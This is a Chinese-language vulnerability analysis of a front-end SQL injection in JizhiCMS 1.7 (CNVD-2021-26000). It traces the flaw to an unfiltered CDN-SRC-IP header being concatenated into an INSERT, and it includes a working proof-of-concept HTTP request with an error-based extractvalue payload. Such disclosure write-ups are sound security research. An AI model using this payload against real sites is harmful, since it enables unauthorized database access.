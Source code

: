 @Author：Y4tacker

@Time：2021/5/12

# 极致CMS1.7前台存在SQL注入漏洞

今日CNVD爆出极致CMS前台存在SQL注入漏洞（CNVD-2021-26000），有个兄弟催我分析，那我就分析一次吧，首先标题说了在前台，那很显然我们要缩小范围，根据目录结构，不难得到前台文件在Home目录下吧

![](pic/1.png)

在分析之前我们得知道一个东西，在极致CMS当中对于接收的参数是通过类似下面的函数

```
$w['body'] = $this->frparam('body',1,'','POST');
```

我们跟进这个函数，获取参数传入`format_param`

![](pic/2.png)

跟进这个函数，不难得到过滤的很严格，因此我也不打算绕过了

![](pic/3.png)

接下来，好吧我挣扎一天了，断断续续的终于找到了，帅气的我不解释

最终找到了一个神奇的地方`Home/c/MessageController.php`，在index函数当中

![](pic/4.png)

获取IP，调用add函数

![](pic/5.png)

我们来看这个getIP函数，妥妥的无过滤，这个对应文件头是`CDN-SRC-IP`

![](pic/6.png)

接下来我们进入代码分析，首先给出我的POC

```php
POST /message/index.html?XDEBUG_SESSION_START=14451 HTTP/1.1
Host: y4tacker.top
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.104 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
CDN-SRC-IP:2'and extractvalue(1,concat(0x5c,(select database()),0x5c)) and '1'='1
Cookie: csrf_c65ac5=fb408103; PHPSESSID=8r5l9qe20eigmokooigec4e71i
Connection: close

tid=4&user=1&title=1
```

接下来配合Xdebug我们开始跟进吧，首先看一眼，我们的参数确认没过率

![](pic/7.png)

清除值为空的参数

![](pic/8.png)

接下来通过join不难看出简简单单，直接拼接起来了

![](pic/9.png)

直接拼接语句无过滤，easy，既然是insert，自然是报错注入一把梭啦

![](pic/10.png)

分析完毕，看看结果吧

![](pic/11.png)